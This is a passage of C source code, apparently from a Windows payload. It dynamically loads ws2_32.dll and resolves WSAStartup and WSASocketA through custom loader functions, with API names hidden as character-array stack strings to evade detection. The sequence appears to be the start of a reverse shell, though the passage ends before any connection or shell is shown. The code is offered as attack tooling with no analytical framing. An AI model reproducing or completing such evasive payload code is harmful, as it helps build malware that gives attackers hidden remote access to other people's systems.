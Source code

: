     //
    // Get address of ws2_32.dll
    //
    char ws2_32dll[] = { 'w', 's', '2', '_', '3', '2', '.', 'd', 'l', 'l', '\0' }; 
    LPVOID ws2_32dll_base = _LoadLibraryA( ws2_32dll );

    if( NULL == ws2_32dll_base )
    {
        // printf( "[+] Could not find ws2_32.dll!\n" );
        return 1;
    }

    //
    // 1. INITIALIZE SOCKET LIBRARY USING WSAStartup()
    // Dynamically resolve WSAStartUp WinAPI
    // 
    char wsastartup[] = { 'W', 'S', 'A', 'S', 't', 'a', 'r', 't', 'u', 'p', '\0' };

    int( WINAPI * _WSAStartup)
    (
        WORD      wVersionRequired,
        LPWSADATA lpWSAData
    );

    _WSAStartup = ( int(WINAPI *)
    (
        WORD      wVersionRequired,
        LPWSADATA lpWSAData
    )) _GetProcAddress( (HMODULE)ws2_32dll_base, wsastartup );

    if( NULL == _WSAStartup )
    {
        // printf( "[+] Could not dynamically resolve _WSAStartup!\n" );
        return 1;
    }

    _WSAStartup(MAKEWORD_MACRO(2, 2), &wsaData);

    //
    // 2. CREATE A SOCKET USING WSASocketA()
    // Dynamically resolve WSASocketA() WinAPI
    // 
    char wsasocketa[] = { 'W', 'S', 'A', 'S', 'o', 'c', 'k', 'e', 't', 'A', '\0' };
    
    SOCKET( WINAPI * _WSASocketA)
    (
        int af,
        int type,
        int protocol,
        LPWSAPROTOCOL_INFO lpProtocolInfo,
        GROUP g,
        DWORD dwFlags
    );

    _WSASocketA = ( SOCKET(WINAPI *)
    (
        int af,
        int type,
        int protocol,
        LPWSAPROTOCOL_INFO lpProtocolInfo,
        GROUP g,
        DWORD dwFlags
    )) _GetProcAddress( (HMODULE)ws2_32dll_base, wsasocketa );

    if( NULL == _WSASocketA )
    {
        // printf( "[+] Could not dynamically resolve _WSASocketA!\n" );
        return 1;